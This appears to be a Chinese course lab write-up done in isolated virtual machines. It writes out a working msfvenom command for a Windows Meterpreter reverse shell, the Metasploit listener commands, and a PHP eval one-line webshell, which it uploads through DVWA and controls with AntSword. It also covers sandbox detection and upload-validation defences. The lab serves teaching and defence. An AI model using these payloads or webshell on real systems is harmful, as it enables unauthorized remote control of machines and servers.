

# 信息安全作业：远控木马免杀检测与 WebShell 控制实战

> ⚠️ **安全声明**：本实验为《网络攻防》课程作业记录。所有操作均在**本地虚拟机（Host-Only/NAT 隔离网络）**中完成，靶机为自行搭建的 Windows 虚拟机与 DVWA Web 靶场。**不对任何未授权的真实服务器、网站进行探测**；测试数据全部使用虚构数据，严禁将文中技术用于非法途径，仅供学习与防御研究。

## 第一部分：实验环境与工具基础

### 1. 环境准备
| 角色 | 操作系统 | 使用工具/环境 |
| :--- | :--- | :--- |
| **攻击机（控制端）** | Kali Linux | Metasploit、msfvenom、蚁剑 |
| **靶机（被控端）** | Windows 10 虚拟机 | 实验期间临时关闭 Defender 防护 |
| **Web 靶场** | 本地 DVWA 靶场 | PHPStudy (PHP + MySQL) |
| **在线检测平台** | - | 微步云沙箱 (s.threatbook.com) |

### 2. 工具基础认识
- **Metasploit Framework (MSF)**：开源安全漏洞检测工具。本实验利用 `msfvenom` 模块生成远控木马（Payload），并使用 `multi/handler` 模块进行监听。
- **微步云沙箱**：在线恶意软件分析平台，支持静态与动态行为检测，用于验证生成的木马是否会被安全设备查杀。
- **蚁剑 (AntSword)**：开源跨平台网站管理工具，常被渗透测试人员用于连接和控制 WebShell（一句话木马）。

---

## 第二部分：远控木马生成与微步云沙箱检测

### 1. 生成被控端 Payload
在 Kali Linux 终端中，使用 `msfvenom` 生成一个反向连接 TCP 的 Windows 可执行文件。

```bash
# 替换 <Kali_IP> 为你的 Kali 虚拟机实际 IP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=5000 -f exe -o payload.exe
```
### 2. 提交微步云沙箱检测
1. 浏览器访问 微步云沙箱，将生成的 payload.exe 上传。
2. 等待分析完成，查看检测报告。由于未做免杀处理，原生 Payload 会被判定为高危恶意软件（如检测出 Metasploit 家族特征）。
https://./img/threatbook.png <!-- 替换为你本地的截图路径 -->

###3. MSF 监听与上线控制
在 Kali 中启动 MSF 控制台，配置监听模块，等待靶机运行木马后反弹连接：
```
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST <Kali_IP>
msf6 > set LPORT 5000
msf6 > exploit
```
在靶机上双击运行 payload.exe，Kali 端成功获取 Meterpreter 会话。输入 sysinfo 验证权限。
{ .glightbox }

## 第三部分：一句话木马写入与蚁剑控制
### 1. 准备一句话木马
本地新建一个 shell.php 文件，内容如下（pass 为连接密码）：
```
php
<?php @eval($_POST['pass']); ?>
https://./img/shell_php.png <!-- 替换为你本地的截图路径 -->
```
### 2. 将木马写入目标网站
利用本地搭建的 DVWA 靶场（File Upload 模块，安全级别设为 Low），将 shell.php 上传至目标网站，获取文件访问路径，例如：http://<靶机_IP>/hackable/uploads/shell.php。

https://./img/upload_success.png <!-- 替换为你本地的截图路径 -->

### 3. 蚁剑连接与控制
打开蚁剑客户端，右键空白处添加数据：
- URL 地址：填入刚获取的木马路径。
- 连接密码：填写 pass（与木马代码中的参数一致）。
点击“测试连接”，提示成功后双击进入，即可看到目标服务器的文件目录，并在虚拟终端中执行 whoami 等无害命令。

https://./img/antsword.png <!-- 替换为你本地的截图路径 -->

### 第四部分：实验总结
- 关于免杀对抗：原生的 msfvenom 木马特征明显，极易被微步云沙箱等安全设备通过静态特征匹配或动态行为分析捕获。实际攻防中，攻击者常使用加壳、混淆等技术尝试免杀，而防守方则需部署 EDR 等高级威胁检测系统。
- 关于 Web 安全防护：一句话木马虽然代码简单，但配合蚁剑等工具能造成极大的破坏。开发人员在编写文件上传功能时，必须严格校验文件后缀、MIME 类型以及文件内容（白名单机制），防止恶意文件落地。
- 工具双刃剑：Metasploit 和蚁剑是强大的安全工具，既能用于渗透测试，也会被黑客滥用。理解其运行原理（如反向连接、HTTP 流量特征）是进行有效防御的前提。


